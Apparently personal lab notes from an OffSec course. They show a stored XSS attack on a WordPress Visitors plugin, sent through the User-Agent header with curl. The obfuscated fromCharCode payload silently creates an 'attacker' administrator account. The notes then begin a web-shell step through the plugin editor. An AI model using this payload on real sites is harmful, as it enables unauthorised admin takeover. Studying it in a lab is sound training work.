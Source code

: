 ```
kali@kali:~$ curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

Before running the curl attack command, let's start Burp and leave Intercept on
+ We instructed curl to send a specially-crafted HTTP request with a User-Agent header containing our malicious payload, then forward it to our Burp instance so we can inspect it further
+ After running the curl command, we can inspect the request in Burp:
![[Pasted image 20230813113507.png]]
+ Everything seems correct, so let's forward the request by clicking _Forward_, then disabling Intercept

At this point, our XSS exploit should have been stored in the WordPress database
+ We only need to simulate execution by logging in to the OffSec WP instance as admin, then clicking on the Visitors plugin dashboard on the bottom left:
![[Pasted image 20230813113541.png]]
+ We notice that only one entry is present, and apparently no User-Agent has been recorded. This is because the User-Agent field contained our attack embedded into "`<script>`" tags, so the browser cannot render any string from it

By loading the plugin statistics, we should have executed the malicious script, so let's verify if our attack succeeded by clicking on the _Users_ menu on the left pane:
![[Pasted image 20230813114806.png]]
+ Due to this XSS flaw, we managed to elevate our application privileges from a standard user to administrator via a specially-crafted HTTP request
+ We could now advance our attack and gain access to the underlying host by crafting a custom *WordPress plugin with an embedded web shell*

#### WebShell via Wordpress Plugin Edit
`Hello Dolly` is a common default plugin, it is available on:
![[Screenshot 2023-08-13 at 4.29.28 PM.png]]
+ Can edit that plugin with the plugin editor
![[Screenshot 2023-08-13 at 4.30.13 PM.png]]
